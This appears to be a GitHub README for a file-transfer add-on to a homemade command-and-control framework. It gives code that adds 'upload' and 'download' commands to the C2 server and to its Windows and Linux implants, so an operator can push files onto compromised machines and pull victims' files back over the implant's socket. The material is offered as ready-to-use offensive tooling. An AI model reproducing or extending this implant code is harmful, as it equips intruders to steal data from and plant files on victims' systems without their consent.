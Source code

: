 # File Transfer Module

[![ko-fi](https://ko-fi.com/img/githubbutton_sm.svg)](https://ko-fi.com/M4M03Q2JN)

This module adds a function file called transfer.py to the project, which can be used to upload and download files to and from the C2 server.

# Usage

### smtp.py 

1. Create a new folder called "functions", and add the transfer.py file to it. 
2. Inside of the sockserver.py file, add the following imports:
```
import os.path
from functions.transfer import upload_file, download_file
```
3. Inside of the target_comm function of the main script, add the following
```
        elif message[:7] == 'upload ':
            file_name = message[7:]
            try:
                if os.path.exists(file_name):
                    upload_file(targ_id, file_name)
                else:
                    print(
                        fail + '[-] File does not exist on the local machine.' + close)
            except Exception as e:
                print(e)
        elif message[:9] == 'download ':
            file_name = message[9:]
            file_name = os.path.basename(file_name)
            print(info + f'[+] Attempting to download {file_name}.' + close)
            download_file(targ_id, file_name)
```
3. Inside of both the winplant.py and linplant.py files, add the following functions:
```
def upload_file(file_name):
    try:
        f = open(file_name, 'wb')
        secure_sock.settimeout(2)
        chunk = secure_sock.recv(8192)
        while chunk:
            f.write(chunk)
            try:
                chunk = secure_sock.recv(8192)
            except socket.timeout as e:
                break
        secure_sock.settimeout(None)
        f.close()
    except Exception as e:
        print(e)


def download_file(file_name):
    try:
        f = open(file_name, 'rb')
        while True:
            try:
                bytes_read = f.read(8192)
                if not bytes_read:
                    break
                secure_sock.send(bytes_read)
            except Exception as e:
                print(e)
    except Exception as e:
        print(e)
```
4. Inside of the session_handler function of both payloads, add the following:
```
            elif message[:7] == 'upload ':
                filename = message[7:]
                filename = os.path.basename(filename)
                upload_file(filename)
            elif message[:9] == 'download ':
                filename = message[9:]
                print(filename)
                try:
                    if os.path.exists(filename):
                        download_file(filename)
                    else:
                        response = '0'
                        response = bytes((response), encoding='utf8')
                        secure_sock.send(response)
                except FileNotFoundError:
                    pass
```

### Functionality 
Using the ```upload``` and ```download``` commands followed by the file name to send, you can transfer files to and from.

## Notes
This update does not currently like downloading files that are not text-based.
